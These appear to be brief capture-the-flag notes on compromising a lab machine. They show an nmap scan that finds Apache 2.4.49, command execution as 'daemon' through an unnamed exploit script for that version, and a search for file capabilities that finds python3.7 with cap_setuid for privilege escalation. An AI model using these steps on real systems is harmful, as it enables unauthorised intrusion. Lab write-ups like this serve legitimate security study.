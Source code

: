 Recon
```
sudo nmap -sV -Pn -p- -T 4 '10.10.134.28'
[sudo] password for gomez22: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 19:06 PDT
Nmap scan report for 10.10.134.28
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 273.33 seconds
```


Enumeration
-> total bust

Initial Access
-> shell script for vulnerable apache version
```
└─$ ./*.sh target.txt /bin/sh whoami
10.10.134.28
daemon
```

Pivoting (maybe)
Privesc (privelege escalation)


```
daemon@4a70924bafa0:/tmp$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
```
